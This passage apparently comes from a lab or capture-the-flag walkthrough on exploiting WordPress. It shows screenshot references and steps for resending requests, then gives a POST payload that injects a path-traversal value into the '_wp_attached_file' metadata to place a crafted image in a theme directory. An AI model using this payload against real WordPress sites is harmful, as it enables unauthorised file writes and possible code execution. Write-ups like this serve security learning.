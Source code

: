 ![](/assets/images/jerome/screenshot-16.png)

Go to tab 2, and click **Send**.

![](/assets/images/jerome/screenshot-17.png)

The image was created. Go to tab 1 again, enter the following payload to the post data, and click **Send**.

`&meta_input[_wp_attached_file]=2022/10/rem.jpg#/../../../../themes/twentynineteen/rem.jpg`
